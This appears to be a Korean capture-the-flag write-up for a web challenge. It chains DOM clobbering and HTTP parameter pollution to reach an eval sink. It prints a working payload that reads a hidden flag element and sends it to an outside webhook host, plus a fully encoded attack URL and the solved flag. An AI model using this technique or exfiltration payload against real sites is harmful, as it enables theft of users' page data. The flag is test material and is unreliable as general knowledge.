

# 07. DOM Clobbering

## 문제 설명
`/?c=` 파라미터를 받는 페이지. 핵심 로직은 다음과 같다.
```javascript
window.onload = () => {
  if(!window.CLOB){ CLOB = { isAdmin:false }; }
  if(CLOB.isAdmin){ params = new URLSearchParams(location.search); eval(params.get("c")); }
};
```
```php
<div id='flag'><?php
$flag = getenv('FLAG_DOMCLOB');
if($_SERVER['REMOTE_ADDR'] == gethostbyname('bot')) echo $flag;  // 봇(내부)일 때만 노출
?></div>
```
flag는 **봇이 접근할 때만** `<div id='flag'>` 안에 렌더링된다. 따라서 봇이 이 페이지를
방문하게 하고(report), 봇 페이지에서 JS를 실행해 flag div 내용을 외부로 유출해야 한다.

또한 `c`는 `waf()`를 거쳐 페이지에 출력되는데, 다음 문자열이 차단된다.
`script`, `on`, `frame`, `object`, `embed`, `data`, `&#`, `src`, `//`, `'`, `"`, `` ` ``, `*`

## 분석

### 1)  DOM Clobbering
`if(!window.CLOB)` 는 `window.CLOB`이 이미 존재하면 초기화를 건너뛴다.
HTML 요소에 `id`/`name`을 주면 동일 이름의 전역 변수가 생성되는 DOM Clobbering을
이용해 `CLOB.isAdmin`을 truthy하게 만든다.
```html
<a id=CLOB><a id=CLOB name=isAdmin href=x>
```
이 태그는 waf 블랙리스트에 걸리지 않아 그대로 출력되며, `CLOB.isAdmin`이 참이 되어
`eval(params.get("c"))` 에 도달한다. (콘솔에서 `Boolean(CLOB.isAdmin)` → `true` 로 확인)

### 2)  HTTP Parameter Pollution
`c` 하나가 두 역할을 해야 한다: (a) HTML로 출력되어 clobbering, (b) `eval`로 실행되어 유출.
그런데 `c`가 HTML 태그이면 `eval`이 SyntaxError를 낸다.

이를 HTTP Parameter Pollution으로 해결한다. `c`를 두 번 넘기면
PHP와 JS가 서로 다른 값을 참조한다.
- PHP `$_GET['c']` → 마지막 `c` 사용 (HTML clobbering 출력)
- JS `URLSearchParams.get('c')` → 첫 번째 `c` 사용 (eval 실행)

```
?c=<유출 JS>&c=<clobbering HTML>
```
`eval`이 실행하는 첫 번째 `c`는 `location.search`에서 직접 읽어 waf를 거치지 않으므로
따옴표·`//` 등을 자유롭게 쓸 수 있다.

## 익스플로잇

### 페이로드 구성
- 첫 번째 `c` (eval 실행, 유출 JS):
  ```javascript
  new Image().src="https://webhook.site/<ID>?f="+encodeURIComponent(document.getElementById("flag").innerHTML)
  ```
- 두 번째 `c` (HTML 출력, clobbering):
  ```html
  <a id=CLOB><a id=CLOB name=isAdmin href=x>
  ```

### report에 제출할 URL (완전 URL 인코딩)
```
http://domclobbering:9107/?c=new%20Image%28%29.src%3D%22https%3A%2F%2Fwebhook.site%2F<ID>%3Ff%3D%22%2BencodeURIComponent%28document.getElementById%28%22flag%22%29.innerHTML%29&c=%3Ca%20id%3DCLOB%3E%3Ca%20id%3DCLOB%20name%3DisAdmin%20href%3Dx%3E
```

### 공격 흐름
1. 위 URL을 report 폼(`/report.php`)의 `url`에 제출한다.
2. 봇이 이 URL을 방문 → 봇 접근이므로 `<div id='flag'>`에 flag가 렌더링됨.
3. clobbering으로 `CLOB.isAdmin`이 참 → 첫 번째 `c`의 유출 JS가 `eval` 실행.
4. flag div 내용이 webhook으로 전송됨.



## 플래그
```
flag{ef424291542b461255e9}
```
